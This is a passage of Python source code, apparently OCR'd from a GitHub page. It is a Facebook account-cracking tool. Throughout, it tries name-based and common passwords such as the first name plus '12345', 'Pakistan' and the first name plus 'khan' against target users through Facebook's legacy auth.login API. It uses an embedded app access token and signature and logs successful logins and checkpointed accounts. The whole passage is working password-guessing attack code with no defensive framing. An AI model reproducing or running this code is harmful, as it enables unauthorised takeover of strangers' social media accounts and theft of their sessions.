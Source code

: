                        cps.append(user+ps3)

                   else:

                       if 'access_token' in k:

                           print(G+'[OK] ♡ '+user+' ♡ '+ps3)

                           oks.append(user+ps3)

                       else:

                           ps4=(j['first_name']+'12345')

                           dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps4)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

                           k=json.load(dt)

                           if 'www.facebook.com' in k['error_msg']:

                               print(S+'[CP] ♡ '+user+' ♡ '+ps4)

                               cps.append(user+ps4)

                           else:

                               if 'access_token' in k:

                                   print(G+'[OK] ♡ '+user+' ♡ '+ps4)

                                   oks.append(user+ps4)

                               else:

                                   ps5=('Pakistan')

                                   dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps5)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

                                   k=json.load(dt)

                                   if 'www.facebook.com' in k['error_msg']:

                                       print(S+'[CP] ♡ '+user+' ♡ '+ps5)

                                       cps.append(user+ps5)

                                   else:

                                       if 'access_token' in k:

                                           print(G+'[OK] ♡ '+user+' ♡ '+ps5)

                                           oks.append(user+ps5)

                                       else:

                                           ps6=(j['first_name']+'khan')

                                           dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps6)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
